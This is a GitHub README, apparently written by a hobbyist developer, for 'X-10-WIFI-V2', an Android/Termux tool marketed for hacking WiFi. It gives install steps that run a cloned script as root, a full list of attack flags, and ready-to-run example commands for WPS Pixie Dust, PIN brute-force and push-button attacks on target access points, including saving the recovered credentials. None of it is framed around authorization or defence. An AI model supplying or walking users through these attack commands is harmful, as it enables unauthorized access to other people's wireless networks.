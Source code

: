 # X-10-WIFI-V2

[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&color=35F700&background=3C8BFF00&random=false&width=435&lines=Thanks+for+use+my+command+;please+don't+forget+start+;Hi+I'm+ARIF_MODZ;Facebook%3A+Arifmoodz)](https://git.io/typing-svg)

![Thanks](https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&random=false&width=435&lines=im-ARIF-thanks-for-my-cmd-use)

---

### 👋 Hello, Welcome

**Hack WiFi** using **X-10-WIFI-V2** by Termux/Android, by `ARIF 😫`!

![Developer](https://i.postimg.cc/6Q0XPjdt/IMG-20240404-202439-804.jpg)

---

## 📶 HACK WIFI

<p align="center">
  <img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png">
</p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![Python 2.7](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)

---

## 📥 Installation

### Step 1

```bash
pkg update && pkg upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage
```

### Step 2

```bash
git clone --depth 1 https://github.com/Versionx10/X-10-WIFI-V2
```

### Step 3

```bash
sudo python X-10-WIFI-V2/X-10-WIFI-V2.py -i wlan0 -K
```

---

## 🧠 Overview

**X-10-WIFI-V2** performs a [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without switching to monitor mode.

### Features
- Pixie Dust attack
- 3WiFi offline WPS PIN generator
- Online WPS bruteforce
- Wi-Fi scanner using `iw`

---

## 📦 Requirements

- Python 3.6+
- [wpa_supplicant](https://www.w1.fi/wpa_supplicant/)
- [pixiewps](https://github.com/wiire-a/pixiewps)
- [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw)

> ⚠️ **Note:** Root access is **required**.

---

## 📲 Usage

```bash
X-10-WIFI-V2.py <arguments>
```

### Required
- `-i, --interface=<wlan0>`  : Interface to use

### Optional
- `-b, --bssid=<mac>`        : Target AP MAC address
- `-p, --pin=<wps pin>`      : Custom 4/8 digit WPS pin
- `-K, --pixie-dust`         : Pixie Dust attack
- `-B, --bruteforce`         : Online WPS bruteforce
- `--push-button-connect`    : WPS Push Button attack

### Advanced
- `-d, --delay=<n>`          : Delay between pin attempts
- `-w, --write`              : Save credentials
- `-F, --pixie-force`        : Bruteforce full PIN range
- `-X, --show-pixie-cmd`     : Show Pixiewps command
- `--vuln-list=<filename>`   : Use custom vulnerable device list
- `--iface-down`             : Disable interface after attack
- `-l, --loop`               : Run in loop
- `-r, --reverse-scan`       : Reverse network scan order
- `--mtk-wifi`               : Support MediaTek WiFi chips
- `-v, --verbose`            : Verbose output

---

## ⚠️ Pre-Usage Note

- Turn off **WiFi**
- Turn on **Hotspot**
- Turn on **Location**

---

## 💡 Examples

```bash
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
```

```bash
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -K
```

```bash
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

```bash
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 --pbc
```

---

## 🛠️ Troubleshooting

**Problem:** `RTNETLINK answers: Operation not possible due to RF-kill`  
**Solution:**  
```bash
sudo rfkill unblock wifi
```

**Problem:** `Device or resource busy (-16)`  
**Solution:**  
Disable Wi-Fi and Network Manager, or run with `--iface-down`.

**Problem:** Interface disappears on MediaTek SoC  
**Solution:**  
Run with `--mtk-wifi` flag

---

## 🤝 Connect With Us

[![Github](https://img.shields.io/badge/VERSION X-10-brightgreen?style=for-the-badge&logo=github)](https://github.com/Versionx10)
[![Facebook](https://img.shields.io/badge/FACEBOOK-FOLLOW-red?style=for-the-badge&logo=facebook)](https://www.facebook.com/Arifmoodz)
[![WhatsApp](https://img.shields.io/badge/WHATSAPP-CHAT-red?style=for-the-badge&logo=whatsapp)](https://wa.me/+8801666666666)
[![Instagram](https://img.shields.io/badge/INSTAGRAM-FOLLOW-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/nai)
[![Website](https://img.shields.io/badge/WEBSITE-VISIT-yellow?style=for-the-badge&logo=blogger)](https://versionx10.co)
[![Telegram](https://img.shields.io/badge/TELEGRAM-CHANNEL-red?style=for-the-badge&logo=telegram)](https://t.me/Versionx10)

